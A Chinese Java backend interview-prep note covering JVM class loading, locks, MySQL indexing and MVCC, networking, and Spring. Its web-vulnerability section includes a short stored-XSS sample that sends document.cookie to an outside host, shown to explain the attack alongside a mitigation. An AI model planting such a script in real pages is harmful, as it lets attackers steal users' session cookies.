**验证：**在加载完成后，JVM会对类进行验证，确保被加载类的正确性，分为四个验证阶段（1）文件格式验证（2）元数据验证（3）字节码验证（4）符号引用验证。
**准备：**为类的静态变量分配内存并初始化默认值，这些内存是分配在方法区中的（通过new出来的实例对象分配在堆）。
**解析：**将常量池内的符号引用替换为直接引用的过程。
**初始化：**通过构造方法将类进行实例化。
**使用：**使用这个类对象。
**卸载：**如果程序运行过程中，堆中类的class对象不再被引用，方法区中的二进制类信息会被卸载，启动类加载器加载的类在整个运行期间是不能被卸载的。




- Bootstrap ClassLoader启动类加载器：负责加载存放在JDK\jre\lib(JDK代表JDK的安装目录),如rt.jar，所有的java.开头的类均被Bootstrap
  ClassLoader加载。
- Extension ClassLoader扩展类加载器：它负责加载JDK\jre\lib\ext目录中。
- AppClassLoader应用程序类加载器：它负责加载用户类路径（ClassPath）所指定的类，开发者可以直接使用该类加载器，如果应用程序中没有自定义过自己的类加载器，一般情况下这个就是程序中默认的类加载器。
- 用户自定义类加载器：用户根据自己业务需求自己定义的加载器。

双亲委派模型的工作过程是：如果一个类加载器收到了类加载的请求，它首先不会自己去尝试加载这个类，而是把这个请求委派给父类加载器去完成，每一个层次的类加载器都是如此，因此所有的
加载请求最终都应该传送到最顶层的启动类加载器中，只有当父加载器反馈自己无法完成这个加载请求（它的搜索范围中没有找到所需的类）时，子加载器才会尝试自己去完成加载。

## 触发类加载的时机

​	1、使用new实例化对象时。

​	2、使用一个类的静态属性或方法时。

​	3、初始化一个类的子类时会先初始化子类的父类。

​	4、反射调用时，例如Class.forName("全类名")。

​	5、使用ClassLoader的loadClass()方法加载类时。**注：该类只进行加载阶段，也就是说此时的静态变量依旧没有赋值！与反射的Class.forName不同。**

​	6、运行main方法时，main方法所在类会被加载。

​	7、JDK1.8之后接口中允许存在已经实现的默认方法，在初始化这个接口的实现类时也会触发接口的类加载。

## HashTable和ConcurrentHashMap的区别

两个类都是线程安全的map集合。

HashTable跟HashMap代码实现基本一致，就是在HashMap的方法上面添加了Synchronized关键字，因为HashTable扩容时采用的是头插法添加链表，这在并发扩容情况下可能会导致死链问题。

ConcurrentHashMap是在jdk1.5之后提供的一个线程安全的map集合，在jdk1.8前采用的是分段锁实现了并发操作（相当于是细化了锁粒度），提高了运行效率。在jdk1.8后，采用了CAS算法实现线程并发。

## CAS算法

​	CAS，即Compare And Swap是一种无锁算法，进行比较和交换的操作必须保证是一个原子操作，算法涉及到三个操作数：

- 需要读写的内存值操作数
- 需要进行比较的预期值操作数
- 需要写入的新值操作数

​	CAS具体执行时，

​		1、判断预期值是否符合内存值；

​		2、用新值写入到内存值，否则就不做写入；

​	CAS会有如下三个问题：

​	1、ABA问题：CAS算法实现一个重要前提**需要取出内存中某时刻的数据并且在当下时刻比较并替换**，在这个**时间差**里可能会存在数据的变化。如果一个线程在初次读取时的值为A（仅仅只是从内存中获取没有比较），并且在赋值的时候检查该值仍然是A（这里才开始CAS操作进行比较），但是可能在这两次操作，之间有另外一个线程现将变量的值改成了B，然后又将该值改回为A，那么CAS会误认为该变量没有变化过。注：ABA可以通过在变量面前添加版本号，每次变量更新时就将版本号加一）；

​	2、空转问题：CAS算法需要不停地自旋来读取最新的内存值，长时间不停的读取会造成不必要的CPU开销；

​	3、只能保证一个共享变量的原子操作：因为比较是比较一个变量值，如果对多个变量进行原子性修改CAS就无法实现（注：JDK的AtomicReference来保证应用对象之间的原子性，可以把多个变量放在一个对象里来进行CAS操作，解决了这一问题）；

## 乐观锁，悲观锁，排他锁（互斥锁，独占锁），共享锁，读写锁，统一锁，分段锁，自旋锁，偏向锁，轻量级锁，重量级锁

上面的这些锁是对java中的锁按照不同的方式进行的分类。

悲观锁：在运行并发代码之前先加锁，后运行，保证线程运行代码时不会被其他线程打断。

乐观锁：线程运行代码时不加锁，比较乐观，觉得其他线程不会打扰到自己。乐观锁是无锁算法，不加锁速度就会很快，但是一旦被其他线程打扰，这次操作就会作废。

排他锁：两个线程不能同时获取的锁就是排他锁。

共享锁：两个线程可以同时获取的锁就叫共享锁。

读写锁：在读写锁里面有两把锁，一个是读锁，另一个是写锁，读锁是共享锁，写锁是排他锁。一个线程不安全的集合，我们要对集合进行操作时，就可以创建一个读写锁。大家可以一块拿到读锁，实现同时读操作，但是一旦有一个线程拿到了写锁，其他线程就不能拿到读写锁了。这样就实现了集合的安全。

统一锁：锁的粒度很大，一旦有一个线程拿到这个锁了，其他线程都处于等待状态。

分段锁：把一把锁的粒度降低拆分成多把锁，不同的线程可以获取不同的锁，可以同时对数据进行操作。

自旋锁：无锁算法，在执行代码时不加锁，当发现异常后让cpu空转，来实现线程的等待。因为加锁和释放锁会导致性能的下降。

偏向锁，轻量级锁，重量级锁是synchronized底层的原理。在synchronized底层首先会选用偏向锁，锁偏向于某个线程，该线程执行同步代码块的时候没有锁，一旦有线程进行竞争了，偏向锁就会膨胀为轻量级锁，轻量级锁在没有多线程竞争时，相对重量级锁，减少操作系统互斥量带来的性能消耗。但是随着线程竞争激烈，这时候锁会再次膨胀为重量级锁。重量级锁就是有锁算法了。

## 说说你对AQS的理解

​	AQS，AbstractQueuedSynchronizer抽象队列同步器，定义了一套多线程访问共享资源的同步器框架，许多同步类实现都依赖于它，如常用的ReentrantLock。 简单来说，**AQS定义了一套框架，来实现同步类**。

​	AQS 核心思想是对于共享资源，维护一个双向队列来管理线程，队列中的线程依次获取资源，获取不到的线程进入队列等待，直到资源释放，队列中的线程再次依次获取资源。实际中AQS 是基于CLH双向队列锁实现的。

​	CLH双向队列锁是一种公平的自旋锁，基于一个虚拟的双向队列实现（虚拟的双向队列即不存在队列实例，仅存在结点之间的关联关系），它把每一个请求共享资源的线程封装成一个节点（Node），这个节点包含下面四个属性：

​	1、线程的引用(Thread thread)；

​	2、当前线程的前驱节点(Node prev)；

​	3、当前线程的后继节点(Node next);

​	4、当前线程在队列中的状态(int waitStatus)；

​	当前线程如果获取共享资源失败时，就将其加入到CLH双向队列中，同时会阻塞当前线程。当共享资源释放时，会把首节点唤醒（公平锁），使其再次尝试获取共享资源。

## Synchronized的锁升级机制

​	Synchronized加的锁分为四种状态状态，四种状态会随着竞争的情况逐渐升级，而且是不可逆的过程，即锁只能升级不能降级。

​	1、无锁状态：没有Synchronized关键字，也就是程序执行中完全不加锁，没有用到Synchronized关键字。

​	2、偏向锁状态：它会偏向于第一个访问锁的线程，如果在运行中，锁只有一个线程访问，不存在多线程竞争的情况，则线程是不需要进行加锁、解锁，在这种情况下，JVM就会给线程加一个偏向锁，**如果在运行过程中遇到了其他线程抢占锁，那么此时就会触发锁升级（详情查看第三条）**。也就是说，加入了Synchronized关键字对某个资源进行加锁，但是因为只有一个线程在执行，所以引入了偏向锁避免无意义的加锁解锁，相当于就没有加Synchronized关键字。

​	3、轻量级锁状态：轻量级锁由偏向锁升级而来，也就是A线程还没有释放锁的时候B线程就开始尝试请求锁资源，此时偏向锁就会升级为轻量级锁，B线程会进行自旋一定的次数进行等待，不会阻塞，从而提高性能；如果此时B线程的自旋超过了一定的次数，或者又有第三个线程访问时，轻量级锁就会升级为重量级锁。

​	4、重量级锁状态：当锁升级为重量级锁时，所有等待锁的线程都会进入阻塞状态。JVM通过对象内部的一个叫做监视器锁（Monitor）来实现的重量级锁，而监视器锁又是通过操作系统底层的**MutexLock**来实现的，操作系统实现线程之间的切换需要从用户态转为内核态，这个成本非常高，状态之间的切换需要的时间相对较长，这就是为什么Synchronized效率低的原因。因此，这种依赖于操作系统MutexLock所实现的锁称为重量级锁。

# 数据库

## **mysql的常见数据引擎（存储引擎）和区别**

mysql中数据引擎有很多，我们常见的是myisam和innodb。要注意存储引擎和存储过程的区别。

1. myisam是早期mysql默认的存储引擎。他会把表分成myd，myi，frm文件。而innodb是mysql5.5后默认的存储引擎，他把表里面的数据文件和索引文件进行了合并，存储到了聚簇索引里面。
2. myisam不支持外键，表里面不能创建外键，innodb可以创建外键。
3. myisam不支持事务，innodb支持事务。
4. myisam只能支持表锁，innodb支持的锁比较多，行锁，间隙锁，表锁
5. myisam应用在对速度和性能要求高的场景下面，不支持并发操作，innodb更注重于数据的完整性。

## mysql的索引，聚集索引，非聚集索引，回表，覆盖索引，索引重排，索引下推，最左匹配

​	mysql的数据存储在磁盘上面，为了便于数据的检索，mysql提供了一种快速查找数据的结构来方便我们查找数据。这个数据结构是以树状存储的。这个树状的存储结构即是索引。mysql的索引采用的是b+树。

**b+树和平衡二叉查找树的区别，以及和b树的区别**

​	**二叉树查找树（BST）：**二叉查找树是基于二分查找法来提高数据查找速度的二叉树数据结构。

​	**平衡二叉树（AVL）：**又叫平衡二叉查找树，在满足二叉查找树的基础上，如果不是空树，任何一个节点的左子树与右子树的高度之差的绝对值不超过1。

​	**B树（B-Tree）：**B树与平衡二叉树不同，B树属于平衡多叉树（查找的路径不只两个），或者叫平衡多路查找树，数据库索引大量使用着B树和B+树的数据结构。



​	从上图可以看出，B树相对于平衡二叉树，每个节点存储了更多的键值(key)和数据(data)，并且每个节点拥有更多的子节点，子节点的个数一般称为阶，**上述图中的B树为3阶B树，高度也会很低**。 基于这个特性，B树查找数据读取磁盘的次数将会很少，数据的查找效率也会比平衡二叉树高很多。

​	**假如我们要查找id=28的用户信息，那么我们在上图B树中查找的流程如下：**

1. 先找到根节点也就是页1，判断28在键值17和35之间，我们那么我们根据页1中的指针p2找到页3。
2. 将28和页3中的键值相比较，28在26和30之间，我们根据页3中的指针p2找到页8。
3. 将28和页8中的键值相比较，发现有匹配的键值28，键值28对应的用户信息为(28,bv)。

​	**B+树（B+Tree）：**B+树是B树的一个进化，相对于B树来说B+树更充分的利用了节点的空间，让查询速度更加稳定，其速度完全接近于二分法查找。结构如下：

​	

​	B+Tree和B-Tree不同，

​		1、B+Tree在非叶子节点上，不保存数据，只存储指针，能存储更多的键值，相应的树的阶数(节点的子节点树)就会更大，树就会更矮更胖，如此一来我们查找数据进行磁盘的IO次数有会再次减少，数据查询的效率也会更快。

​		2、并且B+树索引的所有数据均存储在叶子节点，而且数据是按照顺序排列的。那么B+树使得范围查找，排序查找，分组查找以及去重查找变得异常简单。而B-Tree 因为数据分散在各个节点，要实现这一点是很不容易的。

​		3、B+Tree 中各个页之间是通过双向链表连接的，叶子节点中的数据是通过单向链表连接的，可以根据这些链表找到表中所有的数据。


​	**聚集索引：**一个表里面只能有一个聚集索引。在聚集索引的叶子节点上要存储具体的行数据信息。一般情况下，mysql会为这个主键创建聚集索引。

​	**非聚集索引：**一个表里面可以有多个非聚集索引，针对一般字段创建的索引就是非聚集索引，非聚集索引树上存储了索引信息，然后在叶子节点上存储了该索引对应的id信息。

​	**回表：**当我们查询mysql表中的数据时，我们通过非聚集索引查到了该数据对应的id值后，又关联到聚集索引上去根据id查询改行数据，这个过程就是回表。

​	**覆盖索引：**当我们写的sql语句查询的字段刚好是索引的字段以及主键，那么我们就可以避免回表查（因为直接从非聚集索引树中查出了数据），这个操作就叫覆盖索引。

​	**索引重排：**由于改变了数据，导致索引树发生了重大的调整，从而影响到了修改的速度，这个就是索引重排，我们应该尽量的避免索引重排。我们使用mysql时应该尽量的使用自增主键，这样可以尽量的减少索引重排的几率，如果要使用自定义主键可以使用雪花算法来生成主键ID（因为这样生成的ID是有序的），如果使用uuid这样的数据作为主键，就会导致索引重排的几率加大。

​	**索引下推：**在MySQL5.6版本推出，用于优化查询。数据是存储在磁盘的、MySQL有自己的服务，MySQL服务要跟磁盘发生交互，这样能从磁盘拿到数据，

​		在不使用索引下推的情况下，如果使用非主键索引进行查询时，存储引擎通过索引查询到数据然后返回给MySQL服务器，服务器根据筛选条件查询出符合条件的数据；

​		在使用索引下推的情况下，如果使用非主键索引进行查询时，存储引擎通过**索引以及筛选条件**查询出符合条件的数据，然后返回给MySQL服务器（不需要MySQL服务器再做筛选处理） 。

​		**索引下推需要在磁盘上进行数据筛选，原来的筛选是在内存中进行，现在放到了磁盘上进行查找数据的环节，但是，虽然这样看起来成本更高了，可别忘了，索引数据是排序的，所有数据是聚集存放的没所以性能并不会有影响，而且还会减少IO次数，反而会提升性能。**

​	**最左匹配：**当我们针对两列创建了一个组合索引，那么我们必须在查询的时候使用组合索引中最左边的列为起点任何连续的索引都能匹配上。如果遇到范围查询(>、<、between、like)就会停止匹配。
​	

## **什么是数据库的事务，什么是脏读，不可重复读，幻读。**


**事务有四个特性ACID**：

​	原子性：原子性指的就是事务里面执行的增删改操作是一个原子操作，要么全部成功，要么全部失败。

​	隔离性：隔离性指的是两个事务之间同时操作数据库的时候有相应的隔离级别，可以限制事务与事务之间数据的影响。

​	一致性：一致性指的是事务操作前和事务操作后数据必须是正确的。

​	持久性：持久性指的是事务做完操作之后，数据就永久保存了，不会因为一些原因导致数据丢失。

**事务的隔离级别有四个**：

​	读未提交：读未提交会引起脏读问题。脏读就是指一个事务插入数据后，还没有提交事务的情况下，其他的事务就可以读到该数据，这就是脏读问题。

​	读已提交：读已提交解决了脏读的问题，但是没有解决不可重复读的问题。不可重复读指的是一个事务读两次相同的数据，发现两次读到的数据是不一致的。因为中间有其他的事务修改这个数据。

​	可重复读：为了避免不可重复读的问题，我们可以把事务的隔离级别提高到可重复读的级别。可重复读解决了不可重复读的问题，但是有幻读的问题，幻读是指一个事务读到数据库里面没有一条数据，在他插入该数据的时候突然发现数据库里面已经有这个数据了。

​	序列化读：数据库提供了序列化读的隔离级别，可以解决幻读问题。隔离级别越高，那么数据库的性能就会越低。

## **如何提高mysql的sql执行效率**

解决这个问题需要下面三个步骤：

1. 找到执行效率低的sql语句。有两个手段，第一是通过慢查询日志。我们在mysql打开慢查询日志，这样执行慢的sql语句就会被记录到我们的日志文件中。第二是通过show
   processlist来实时观察mysql正在运行的sql语句。
2. 分析sql语句运行效率低的原因.
   > mysql中提供了执行计划命令可以帮助我们观察一个sql语句执行时候经历了什么样的操作。比如用没有索引，回表了没有，索引下推了没有，我们都可以通过这个执行计划观察到。查看执行计划的命令是explain
   sql命令就可以了。通过explain的查询结果我们可以分析该sql语句是否使用到了索引，是否使用索引下推这些功能，然后针对性的进行性能的优化。
3. 优化sql。最左匹配原则，避免使用like，like有可能会导致索引失效。避免使用or。尽量使用覆盖索引。
   模型数空运最快，模糊查询，查询类型不匹配，字段上的函数运算，查询is null或者is not null，在字段上面做运算，都要尽量避免。

## 小表驱动大表

t1是小表 1W数据 t2是大表 10W数据&#x20;
如果大表放左边-->此时大表为驱动表:
select \* from t2 left join t1 on t1.a = t2.a;
当大表作为驱动表时，查询时间大约比小表作为驱动表时慢了一倍，从执行计划也能分析出，谁是驱动表谁就会进行全表扫描，所以这也是为什么要让小表作为驱动表的原因。

## MySQL中exists和in的区别

1. 子查询使用 exists，会先进行主查询，将查询到的每行数据循环带入子查询校验是否存在，过滤出整体的返回数据；子查询使用
   in，会先进行子查询获取结果集，然后主查询匹配子查询的结果集，返回数据
2. 外表内表相对大小情况不一样时，查询效率不一样：两表大小相当，in 和 exists 差别不大；内表大，用 exists 效率较高；内表小，用 in
   效率较高。
3. 不管外表与内表的大小，not exists 的效率一般要高于 not in。not in会让索引失效，而not exists会在内和外查询时都使用索引。

## MySQL优化方案有哪些

- 服务器优化（增加 CPU、内存、网络、更换高性能磁盘）
- 表设计优化（字段长度控制、添加必要的索引）
- SQL 优化（避免 SQL 命中不到索引的情况）
- 架构部署优化（一主多从集群部署，读写分离）

## 数据库三大范式

范式来自英文 Normal Form，简称
NF。要想设计—个好的关系，必须使关系满足一定的约束条件，此约束已经形成了规范，分成几个等级，一级比一级要求得严格。满足这些规范的数据库是简洁的、结构明晰的，同时，不会发生插入（insert）、删除（delete）和更新（update）操作异常。反之则是乱七八糟，不仅给数据库的编程人员制造麻烦，而且可能存储了大量不需要的冗余信息

数据库三大范式包含：第一范式(1NF)；2、第二范式(2NF)；3、第三范式(3NF)。

- 第一范式(1NF)的要求是属性不可分割
- 第二范式(2NF)的要求是满足第一范式，且不存在部分依赖；
- 第三范式(3NF)的要求是满足第二范式，且不存在传递依赖。

## MySQL的redolog、undolog、binlog都是干什么的？

- bin log 归档日志（二进制日志）

  作用：用于复制，在主从复制中，从库利用主库上的 binlog 进行同步。

  存储时机：在业务层中进行记录跟存储引擎没有关系。事务提交后将事务中所有的sql进行记录。

  内容：逻辑格式的日志，记录了执行过的事务中的 sql 语句。但又不完全是 sql 语句这么简单，而是包括了执行的 sql
  语句（增删改）反向的信息，也就意味着 delete 对应着 delete 本身和其反向的 insert；update 对应着 update执行前后的版本的信息。
- redo log 重做日志

  作用：确保事务的持久性。防止在发生故障的时间点，尚有脏页未写入磁盘，在重启 mysql 服务的时候，根据 redo log
  进行重做，从而达到事务的持久性这一特性。

  存储时机：在innodb中才有redo日志。所以他是在引擎层生效的。事务一开始执行的语句就会被放入到redo日志里面。

  内容：物理格式的日志，记录的是物理数据页面的二进制信息，在mysql修改数据的时候直接修改聚集索引的页节点会速度很慢，mysql会先把数据写到redo日志里面供异步线程再写到聚集索引树上。
- undo log 回滚日志

  作用：保存了事务发生之前的数据的一个版本，可以用于回滚，同时可以提供多版本并发控制下的读（MVCC），也即非锁定读

  存储时机：在引擎层有效。

  内容：逻辑格式的日志，在执行 undo 的时候，仅仅是将数据从逻辑上恢复至事务之前的状态，而不是从物理页面上操作实现的，这一点是不同于
  redo log 的。

## 数据库锁

​	在实际的数据库系统中，每时每刻都在发生加锁解锁，当某个用户在修改一部分数据时，MySQL会通过加锁防止其他用户读取同一数据。

​	数据库中的锁按照不同的维度可以将数据库中的锁分类为：

​	**按锁粒度分：**

​		**全局锁：**对整个数据库实例（database）进行加锁，加锁后整个实例处于只读状态，后续的数据库操作都将被阻塞，典型的使用场景是做全库的备份，对所有的表进行锁定。

​		**表级锁：**表级锁可分为**表锁**（针对于表数据的修改）和**元数据锁**（针对于表结构的修改）和**意向锁**（减少加表锁的检查）。**表锁**就是对整张表加锁包含读锁（表共享锁）和写锁（表独占锁），表锁需要显示的加锁或释放锁；**元数据锁**是在MySQL5.5版本引进的，元数据锁不需要像表锁那样进行显示的加解锁，而是在访问表时被自动加上以保证读写的正确性。为了避免在操作数据时加的行锁和表锁冲突，在InnoDB中引入了**意向锁**，使得表锁不用检查每数据是否加锁，使用意向锁可以减少表锁的检查，原理是意向锁和表锁的冲突关系，一些加锁的数据操作指令会同时给表添加上意向排他锁，而意向排他锁又与表共享锁和表排他所都互斥，如果存在意向排他锁就说明存在行锁，那么加表锁的时候就不需要去逐条判断行锁。

​		**行级锁：**行级锁主要分为**行锁**、**间隙锁**、**临键锁**。**行锁**是针对数据表中行记录的锁，MySQL的行锁是在引擎层实现的，不是所有的引擎都支持行锁，比如InnoDB支持行锁而MyISAM不支持。**间隙锁**锁定索引记录间隙（不包含该记录），确保索引记录间隙不变，防止其他事务在这个间隙进行insert从而导致幻读问题。**临键锁**是行锁和间隙锁的组合，锁住数据的同时锁住数据前面的间隙。

​	**按锁功能分：**

​		**共享锁（读锁）：**读锁是共享的，是互相不阻塞的，多个用户在同一时刻可以同时的读取同一个资源。

​		**排他锁（写锁）：**写锁是排他的，也就是说一个写锁会阻塞其他的写锁和读锁。

## MVCC多版本并发控制

​	数据库的事务隔离是通过加锁来实现的，但是频繁的加锁会大大的降低数据库性能，所以为了解决加锁后的性能问题便引入了MVCC多版本并发控制的思想，它可以让数据的读写互相不阻塞。

​	MVCC多版本并发控制是通过保存数据在某个时间点的快照来实现并发控制的，也就是说，不管事务执行多长时间，事务内部看到的数据是不受其他事务影响的，根据事务开始的时间不同，每个事务对同一张表，同一时刻看到的数据可能是不一样的。

​	简单来说，**多版本并发控制** 的思想就是保存数据的历史版本，通过对数据行的多个版本管理来实现数据库的并发控制。这样我们就可以通过比较版本号决定数据是否显示出来，读取数据的时候不需要加锁也可以保证事务的隔离效果。

​	可以认为 **多版本并发控制（MVCC）** 是行级锁的一个变种，但是它在很多情况下避免了加锁操作，因此开销更低。虽然实现机制有所不同，但大都实现了非阻塞的读操作，写操作也只锁定必要的行，它只在**可重复读**和**读已提交**两个隔离级别下工作，其他两个隔离级别与MVCC不兼容，因为读未提交总是读取最新的数据而不是符合当前事务版本的数据，序列化读则会对所有读取的数据都加锁。

**读操作可以分为快照读和当前读**

**快照读**：一致性读也被成为快照读，mysql的快照读是基于MVCC实现的，使用普通的select语句进行查询时就会生成快照进行快照读，快照读不会上锁，根据可见性来决定读取该行记录最新版本还是旧版本。

**当前读**：使用insert，update，delete以及加锁的select就属于当前读，会使用相应的锁进行锁定，查询到的就是数据库中该行记录的最新版本，而不是历史版本。

**InnoDB的MVCC是如何工作的？**

​	InnoDB的MVCC是基于ReadView和undoLog版本链来实现的。

​	在执行update或者delete操作时，会将每个操作记录到undoLog中，每一条记录中都会记录修改这条数据的事务ID（trx_id），以及指向该条数据的上一个记录的回滚指针（roll_ptr），这样就会构成一条数据的版本链体现了该条数据的所有变更。

​	在查询时需要用到ReadView（读视图）来决定哪些数据对当前事务是可见的，它保存了**当前事务开启时所有活跃的（未提交的）事务列表**。读视图有四个重要属性：

​	**trx_ids**：创建ReadView时，当前系统中那些活跃的（未提交的）事务ID，它数据结构为一个List，这里不包括自己和已提交的事务。

​	**creator_trx_id**：表示生成该ReadView的事务的ID，也就是此次查询操作的事务ID。

​	**low_limit_id**：最晚的（最后的）事务ID，也就是目前出现过的最大的事务ID+1，也就是下一个将被分配的事务ID。

​	**up_limit_id**：最早的（最先的）事务ID，也就是目前出现过的最小的事务ID。

​	如果trx_ids是空的，那么low_limit_id等于up_limit_id。

​	访问某条记录的时候如何判断该记录是否可见，具体规则如下：

- 如果被访问版本的 `事务ID = creator_trx_id`，那么表示当前事务访问的是自己修改过的记录，那么该版本对当前事务可见；

- 如果被访问版本的 `事务ID < up_limit_id`，那么表示生成该版本的事务在当前事务生成 ReadView 前已经提交，所以该版本可以被当前事务访问。

- 如果被访问版本的 `事务ID >= low_limit_id` 值，那么表示生成该版本的事务在当前事务生成 ReadView 后才开启，所以该版本不可以被当前事务访问。

- 如果被访问版本的 `事务ID在 up_limit_id和m_low_limit_id` 之间，那就需要判断一下版本的事务ID是不是在 trx_ids 列表中，如果在，说明创建 ReadView 时生成该版本的事务还是活跃的，该版本不可以被访问；如果不在，说明创建 ReadView 时生成该版本的事务已经被提交，该版本可以被访问。

**MVCC是如何实现读已提交和可重复读的呢？**

​	其实其它流程都是一样的，读已提交（RC）和可重复读（RR）唯一的区别在于：在RC隔离级别下，是每个select都会创建最新的ReadView；而在RR隔离级别下，则是当事务中的第一个select请求才创建ReadView。

**MVCC能否解决了幻读问题？**

​	MVCC能解决不可重复读问题，但是不能解决幻读问题。

​	比如，

​		当前数据库中没有ID=5的数据；

​		1、事务A查询是否存在ID=5的数据，发现没有；

​		2、事务B插入了一条ID=5的数据并提交；

​		3、事务A进行ID=5的数据的插入，报错；

​	RR级别解决幻读靠的是锁机制（间隙锁），而不是MVCC机制。

# 计算机网络

## OSI七层网络模型

​	OSI 模型（Open System Interconnection Model）是一个由国际标准化组织提出的概念模型,试图提供一个使各种不同的计算机和网络在世界范围内实现互联的标准框架。

​	它将计算机网络体系结构划分为七层,每层都可以提供抽象良好的接口。了解 OSI 模型有助于理解实际上互联网络的工业标准——TCP/IP 协议。

从上往下依次为：

​	1、应用层：向用户提供服务，完成用户希望在网络上完成的各种工作；

​	2、表示层：数据格式转化确保一个系统应用层发送的消息可以被另一个系统应用层所识别，以及进行数据加密；

​	3、会话层：建立、管理和维护会话，也就是建立管理维护连接；

​	4、传输层：提供端到端的连接，也就是每一个应用程序都会在网卡注册一个端口号，该层就是端口与端口之间的通信，也是TCP/IP协议所在层；

​	5、网络层：网络层负载在源头和终点之间建立连接，可以理解为通过IP确定计算机的位置；

​	6、数据链路层：规定了数据流的分包形式，组合成了一个个的网络数据包；

​	7、物理层：物理层负责最后将数据包编码成电流脉冲信号或光信号用于网上传输；

## TCP/IP四层网络模型

从上往下依次为：

​	1、应用层：主要有负责web浏览器的HTTP协议， 文件传输的FTP协议，负责电子邮件的SMTP协议，负责域名系统的DNS等。

​	2、传输层：传输层，主要是有**可靠传输**的TCP协议，特别**高效**的UDP协议。主要负责传输应用层的数据包。

​	3、网络层：网络层，主要是IP协议。主要负责寻址（找到目标设备的位置）。

​	4、数据链路层：主要是负责转换数字信号和物理二进制信号。

## udp和tcp的区别

TCP提供面向连接的传输，通信前要先建立连接（三次握手机制）； UDP提供无连接的传输，通信前不需要建立连接。
TCP提供可靠的传输（有序，无差错，不丢失，不重复）； UDP提供不可靠的传输。
TCP主要应用在传输文件，邮件，网页，UDP应用在语音通话，视频直播。

## 三次握手、四次挥手

**三次握手**
第一次握手，客户端发送请求建立连接，请求报文段；
第二次握手，服务器收到请求，发送同意并请求与客户端建立连接；
第三次握手，客户端收到请求，发送同意与服务器建立连接；
三次握手解决了信道不可靠的问题，不然，客户端认为建立一次链接，服务器端觉得建立了两次链接。

**四次挥手**
第一次挥手，客户端发送断开请求；
第二次挥手，服务器收到断开请求，发送同意断开连接的请求；
第三次挥手，服务器发送请求断开连接；
第四次挥手，客户端收到，发送同意断开连接，然后客户端继续等待一会，等待超时后断开链接；
为什么需要等待一会，是害怕服务器没有收到ack。

## 粘包、拆包问题

​	只有TCP协议下才会出现粘包和拆包的问题，因为UDP有消息保护边界不会发生粘包拆包的问题。消息保护边界指的是传输协议把数据当作一条独立的消息在网上传输，接收端一次只能接收发送端发出的一个数据包。

​	因为TCP是面向流的，没有边界，而操作系统在发送TCP数据时，会通过缓冲区来进行优化，例如缓冲区为1024个字节大小。如果一次请求发送的数据量比较小，没达到缓冲区大小，TCP则会将多个请求合并为同一个请求进行发送，这就形成了**粘包问题**。如果一次请求发送的数据量比较大，超过了缓冲区大小，TCP就会将其拆分为多次发送，这就形成了**拆包问题**。

​	对于粘包和拆包问题，常见的解决方案有四种：

​	1、消息填充：发送端将每个包都封装成固定的长度，比如100字节大小。如果不足100字节可通过补0或空等进行填充到指定长度；

​	2、消息分隔符：发送端在每个包的末尾使用固定的分隔符，例如\r\n。如果发生拆包需等待多个包发送过来之后再找到其中的\r\n进行合并；例如，FTP协议；

​	3、记录消息长度：将消息分为头部和消息体，头部中保存整个消息的长度，只有读取到足够长度的消息之后才算是读到了一个完整的消息；

​	4、使用自定义协议进行粘包还拆包的处理；

## WebSocket与HTTP的关系

相同点：
1. 都是一样基于TCP的，都是可靠性传输协议。
2. 都是应用层协议。

区别：
 	WebSocket是双向通信协议，模拟Socket协议，可以双向发送或接受信息。HTTP是单向的，客户端发送请求，服务器发送响应。当客户端向服务器发送请求时，该请求以HTTP形式发送，在接收到请求后，服务器会将响应发送给客户端。每个请求都与一个对应的响应相关联，在发送响应后客户端与服务器的连接会被关闭。websocket中服务器可以主动给客户端推送消息，而http必须先有请求再有响应。

应用场景：
	WebSocket

1. 即时Web应用程序
2. 游戏应用程序
3. 聊天应用程序

​	HTTP
​	 只想获取一次数据供应用程序使用，不需要服务器主动推送消息。

## 常见的WEB漏洞有哪些？如何解决

常见的 WEB 漏洞一般指的是 OWASP TOP10 十大安全漏洞。比如 SQL 注入漏洞、XSS 漏洞。

- SQL 注入 大名鼎鼎，对于 Java 而言，通过 SQL 预处理轻松解决。
- 跨站请求伪造
  CSRF。攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。防范措施：1、验证
  HTTP Referer 字段。2、在请求地址中添加 token 并验证。
- 存储型 XSS 保存数据时未检测包含 js 或 html 代码，照成数据被读取并加载到页面时，会触发执行 js 或 html 代码。

样例：

```java
<script>
   document.getElementById('attacker').href='http://www.abc.com/receiveCookies.h
           tml?'+document.cookie;
</script>
```

解决：通过过滤器，对请求参数中的 Value 内容进行遍历，将转义为<和>。

## 什么是跨域请求，怎么解决

浏览器收到响应数据之后，会判断响应回数据的源和当前页面的源是否是属于同源。针对不同源，如果后端没有对响应字段进行处理，则响应回的数据会被浏览器直接过滤掉,并抛出异常。


协议，域名，端口三者其中存在不同都会形成跨域；故，当协议，端口，域名三者均相同时，浏览器就会认为是同源，允许加载该资源，否则为不同源。

解决办法是cors （跨域资源共享）：服务端设置响应头的 access-control-allow-origin 的值为允许请求的域（客服端的）或设置为
\*（即匹配任意域名，任意客户端都可访问）；即可获取到该服务端响应的跨域资源。

原因：

当响应数据从服务端回到浏览器时，浏览器得知客户端和服务端属于不同的域，但同时浏览器又看到响应数据的响应头中
access-control-allow-origin 的字段值是包含当前客户端地址或 \*，浏览器则不会对响应的数据进行过滤。

# JavaEE框架

## Spring、SpringBoot、SpringCloud的区别

Spring：Spring是一个轻量级的JavaEE开发框架，主要依存于SSM框架，即Spring+SpringMVC+Mybatis，Spring利用IOC/DI和AOP来处理业务，SpringMVC主要负责view层显示，Mybatis则是持久化数据到数据库。

SpringBoot：SpringBoot的设计主要是根据“约定大于配置”的理念，简化Spring框架的开发。

SpringCloud：SpringCloud是基于SpringBoot的一套实现微服务的框架，它不提供实际功能性的操作，只专注于服务之间的通讯、熔断和监控等。

## 过滤器和拦截器的区别

1、使用范围与规范不同：Filter是Servlet规范中定义的，依赖于Servlet容器。拦截器是SpringMvc的组件，只有springMVC框架可以使用。
2、使用资源不同：拦截器可以使用Spring里的任何资源、对象，例如Service对象、数据源、事务管理等，通过IOC注入到拦截器即可；而Filter没有被spring管理，他不能注入spring的bean对象。
3、作用范围不同：Filter在只在Servlet前后起作用。而拦截器对控制器请求起作用。过滤器可以拦截任意资源包括，servlet，静态资源html,css，js。拦截器只能拦截springMVC的控制器方法。
4、实现机制不同：拦截器是基于java的反射机制的，而过滤器是基于函数回调。

## **mybatis中取值方式有几种？各自的区别是什么？**

**{}和${}的区别**

